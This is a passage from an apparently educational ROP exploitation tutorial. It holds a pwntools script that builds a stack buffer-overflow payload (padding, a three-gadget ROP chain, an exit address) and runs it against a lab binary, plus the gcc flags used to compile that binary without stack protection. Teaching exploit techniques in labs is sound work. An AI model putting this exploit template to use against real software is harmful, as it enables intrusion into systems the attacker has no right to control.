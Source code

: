 ```python
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================


# How many bytes to the instruction pointer (EIP)?
padding = 108
junk = b'\x42\x42\x42\x42'
exitFunc = 0xf7dbb460
# rop1 = 0x08049182
# rop2 = 0x080491ad
# rop3 = 0x080491d8

rop = ROP(exe)
rop.rop1()
rop.rop2()
rop.rop3()

payload = flat(
    b'A' * padding,
    junk,
    rop.chain(),
    exitFunc
)

# Write the payload to file
write('pwntoolsPayload', payload)
print("[+] Wrote payload to file named pwntoolsPayload")

# Send the payload
p = process([exe.path, payload])

# # Receive the flag
p.interactive()
```

### Analyzing our Exploit in `pwndbg`

In order to find out exactly what is going on, we will step through the flow of execution in `pwndbg`.



## 64-bit Exploitation

Given the same binary as above, let's compile it as a 64-bit binary and remove the `-m32` flag for `gcc`:

```
gcc rop1.c -o rop1-x64 -fno-stack-protector -no-pie -z ex
ecstack
```
